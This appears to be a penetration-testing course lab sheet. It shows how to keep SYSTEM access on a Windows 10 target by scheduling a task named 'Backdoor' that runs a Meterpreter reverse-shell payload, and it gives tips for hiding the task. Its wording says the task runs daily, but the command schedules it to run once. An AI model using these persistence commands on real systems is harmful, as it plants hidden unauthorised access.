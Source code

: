 ## Activity File: Persistence

Now that we have SYSTEM access over the machine, we will establish persistence on it to ensure our SYSTEM access. This technique will utilize Task Scheduler. We will create a scheduled task that will execute a custom Meterpreter payload.

- You will establish persistence on the Window10 machine by abusing Task Scheduler. 

- This will allow your payload to be executed at a certain defined interval, ensuring you always have a reverse shell to the target.

### Instructions

You will work off your Meterpreter session on the Window10 machine. If you do not have an active session on the WIN10 machine, refer to prior activities to obtain a Meterpreter shell.

1. In your Meterpreter session, drop into a `shell` session.

     - `shell`

2. Create a scheduled task that will execute your payload every day at midnight.  

     - `schtasks /create /f /tn Backdoor /SC ONCE /ST 00:00 /TR "C:\shell.exe"`

	 ![A screenshot depicts the results of the command.](schtask.PNG)

3. Test your scheduled task.

     - `schtasks /run /tn Backdoor`

	 ![A screenshot depicts the results of the command.](testschtask.PNG)

4. How could you improve this technique to make it more stealthy?

     - Better task name

     - Execute a better-named payload

     - Schedule the task only to run on certain events, such as logon

---

© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.



